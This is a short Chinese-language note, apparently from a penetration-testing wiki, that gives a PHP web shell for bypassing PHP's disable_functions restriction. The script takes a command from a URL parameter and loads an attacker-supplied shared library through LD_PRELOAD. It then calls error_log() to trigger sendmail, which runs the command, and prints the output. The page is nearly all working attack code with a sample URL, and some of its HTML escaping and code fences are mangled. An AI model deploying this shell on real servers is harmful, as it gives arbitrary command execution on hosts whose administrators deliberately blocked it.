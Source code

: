 ```yaml
---
title: error_log
id: zhfly3464
---
```


## error_log

> https://github.com/ianxtianxt/bypass_disablefunc_via_LD_PRELOAD/blob/master/bypass_disablefunc.php

将mail例子中的mail("", "", "", "");替换为error_log("a",1);

```
<?php
    echo "<p> <b>example</b>: http://www.0-sec.org/bypass_disablefunc.php?cmd=pwd&outpath=/tmp/xx&sopath=/var/www/bypass_disablefunc_x64.so </p>";

```
$cmd = $_GET["cmd"];
$out_path = $_GET["outpath"];
$evil_cmdline = $cmd . " &gt; " . $out_path . " 2&gt;&amp;1";
echo "&lt;p&gt; &lt;b&gt;cmdline&lt;/b&gt;: " . $evil_cmdline . "&lt;/p&gt;";

putenv("EVIL_CMDLINE=" . $evil_cmdline);

$so_path = $_GET["sopath"];
putenv("LD_PRELOAD=" . $so_path);

error_log("a",1);

echo "&lt;p&gt; &lt;b&gt;output&lt;/b&gt;: &lt;br /&gt;" . nl2br(file_get_contents($out_path)) . "&lt;/p&gt;"; 

unlink($out_path); 
``` `?>` 
```